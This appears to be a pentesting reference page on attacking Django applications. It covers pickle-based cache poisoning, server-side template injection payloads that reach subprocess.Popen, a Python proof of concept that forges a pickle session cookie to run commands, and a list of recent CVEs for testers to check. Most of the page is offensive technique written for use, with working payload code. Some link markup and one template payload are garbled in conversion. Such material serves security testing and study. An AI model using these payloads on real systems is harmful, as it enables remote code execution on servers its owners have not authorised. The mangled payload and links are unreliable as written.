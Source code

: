 # Django


## Cache Manipulation to RCE
Django's default cache storage method is [[https://docs.python.org/3/library/pickle.html), which can lead to RCE if [untrusted input is unpickled](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf|Python pickles]]. **If an attacker can gain write access to the cache, they can escalate this vulnerability to RCE on the underlying server**.

Django cache is stored in one of four places: [[https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [memory](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [files](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16), or a [database](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). Cache stored in a Redis server or database are the most likely attack vectors (Redis injection and SQL injection|Redis]], but an attacker may also be able to use file-based cache to turn an arbitrary write into RCE. Maintainers have marked this as a non-issue. It's important to note that the cache file folder, SQL table name, and Redis server details will vary based on implementation.

This HackerOne report provides a great, reproducible example of exploiting Django cache stored in a SQLite database: https://hackerone.com/reports/1415436

---

## Server-Side Template Injection (SSTI)
The Django Template Language (DTL) is **Turing-complete**. If user-supplied data is rendered as a *template string* (for example by calling `Template(user_input).render()` or when `|safe`/`format_html()` removes auto-escaping), an attacker may achieve full SSTI → RCE.

### Detection
1. Look for dynamic calls to `Template()` / `Engine.from_string()` / `render_to_string()` that include *any* unsanitised request data.
2. Send a time-based or arithmetic payload:
   ```django
   {{7*7}}
   ```
   If the rendered output contains `49` the input is compiled by the template engine.

### Primitive to RCE
Django blocks direct access to `__import__`, but the Python object graph is reachable:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
```Find the index of `subprocess.Popen` (≈400–500 depending on Python build) and execute arbitrary commands:
```django
{{''.__class__.mro()[1].__subclasses__()[['id',shell=True,stdout=-1).communicate(|438]][0]}}
```
```A safer universal gadget is to iterate until `cls.__name__ == 'Popen'`.

The same gadget works for **Debug Toolbar** or **Django-CMS** template rendering features that mishandle user input.

---

### Also see: ReportLab/xhtml2pdf PDF export RCE
Applications built on Django commonly integrate xhtml2pdf/ReportLab to export views as PDF. When user-controlled HTML flows into PDF generation, rl_safe_eval may evaluate expressions inside triple brackets `[[[ ... ]]]` enabling code execution (CVE-2023-33733). Details, payloads, and mitigations:

[[../../generic-methodologies-and-resources/python/bypass-python-sandboxes/reportlab-xhtml2pdf-triple-brackets-expression-evaluation-rce-cve-2023-33733.md]]

---

## Pickle-Backed Session Cookie RCE
If the setting `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` is enabled (or a custom serializer that deserialises pickle), Django *decrypts and unpickles* the session cookie **before** calling any view code. Therefore, possessing a valid signing key (the project `SECRET_KEY` by default) is enough for immediate remote code execution.

### Exploit Requirements
* The server uses `PickleSerializer`.
* The attacker knows / can guess `settings.SECRET_KEY` (leaks via GitHub, `.env`, error pages, etc.).

### Proof-of-Concept
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
    def __reduce__(self):
        return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
```Send the resulting cookie, and the payload runs with the permissions of the WSGI worker.

**Mitigations**: Keep the default `JSONSerializer`, rotate `SECRET_KEY`, and configure `SESSION_COOKIE_HTTPONLY`.

---

## Recent (2023-2025) High-Impact Django CVEs Pentesters Should Check
* **CVE-2025-48432** – *Log Injection via unescaped `request.path`* (fixed June 4 2025). Allows attackers to smuggle newlines/ANSI codes into log files and poison downstream log analysis. Patch level ≥ 4.2.22 / 5.1.10 / 5.2.2. 
* **CVE-2024-42005** – *Critical SQL injection* in `QuerySet.values()/values_list()` on `JSONField` (CVSS 9.8). Craft JSON keys to break out of quoting and execute arbitrary SQL. Fixed in 4.2.15 / 5.0.8. 

Always fingerprint the exact framework version via the `X-Frame-Options` error page or `/static/admin/css/base.css` hash and test the above where applicable.

---

## References
* Django security release – "Django 5.2.2, 5.1.10, 4.2.22 address CVE-2025-48432" – 4 Jun 2025. 
* OP-Innovate: "Django releases security updates to address SQL injection flaw CVE-2024-42005" – 11 Aug 2024. 
* 0xdf: University (HTB) – Exploiting xhtml2pdf/ReportLab CVE-2023-33733 to gain RCE and pivot into AD – [[https://0xdf.gitlab.io/2025/08/09/htb-university.html|https://0xdf.gitlab.io/2025/08/09/htb-university.html]]

